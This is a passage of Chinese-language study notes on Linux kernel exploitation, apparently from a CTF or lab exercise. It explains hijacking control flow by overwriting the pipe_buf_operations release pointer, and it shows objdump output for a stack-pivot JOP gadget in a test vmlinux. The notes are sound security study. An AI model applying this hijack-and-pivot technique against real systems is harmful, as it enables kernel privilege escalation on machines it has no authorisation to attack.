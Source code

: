 当我们利用 `close(pipe_fd[1]);close(pipe_fd[0]);`关闭管道两端时，会触发 `pipe_buffer->pipe_bufer_operations->release` 指针，因此可以覆写pipe_buf_operations函数表中的release指针或劫持函数表到可控区域，便可劫持程序执行流。其 `rdi`和 `rsi`均可控，`rdi`为 `struct pipe_inode_info`，`rsi`为 `struct pipe_buffer`。

调试时在 `pipe_buf_release`处下断点。

一个栈迁移的JOP gadget（不知道怎么搜这种类型的gadget)，实现效果是

RDX！=RCX时PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET

```bash
# exploooosion @ Exploooosion in ~/mypwn/linux_kernel/Digging-into-Kernel-3/core workenv [15:24:16] 
$ objdump -D --start-address=0xffffffff81250c9d --stop-address=0xffffffff81250cbf ../vmlinux

../vmlinux：     文件格式 elf64-x86-64


Disassembly of section .text:

ffffffff81250c9d <simple_write_begin+0x12d>:
ffffffff81250c9d:	56                   	push   %rsi
ffffffff81250c9e:	5c                   	pop    %rsp
ffffffff81250c9f:	48 39 d1             	cmp    %rdx,%rcx
ffffffff81250ca2:	72 e1                	jb     ffffffff81250c85 <simple_write_begin+0x115>
ffffffff81250ca4:	5b                   	pop    %rbx
ffffffff81250ca5:	31 c0                	xor    %eax,%eax
ffffffff81250ca7:	5d                   	pop    %rbp
ffffffff81250ca8:	41 5c                	pop    %r12
ffffffff81250caa:	e9 91 25 db 00       	jmp    ffffffff82003240 <__x86_return_thunk>
ffffffff81250caf:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
ffffffff81250cb4:	0f b6 4e 51          	movzbl 0x51(%rsi),%ecx
ffffffff81250cb8:	b8 00 10 00 00       	mov    $0x1000,%eax
ffffffff81250cbd:	48 d3              	shl    %cl,%rax
(workenv) 
# exploooosion @ Exploooosion in ~/mypwn/linux_kernel/Digging-into-Kernel-3/core workenv [15:27:03] 
$ objdump -D --start-address=0xffffffff82003240 --stop-address=0xffffffff82003250 ../vmlinux

../vmlinux：     文件格式 elf64-x86-64


Disassembly of section .text:

ffffffff82003240 <__x86_return_thunk>:
ffffffff82003240:	c3                   	ret
ffffffff82003241:	cc                   	int3
ffffffff82003242:	0f ae e8             	lfence
ffffffff82003245:	eb f9                	jmp    ffffffff82003240 <__x86_return_thunk>
ffffffff82003247:	cc                   	int3
(workenv) 

```
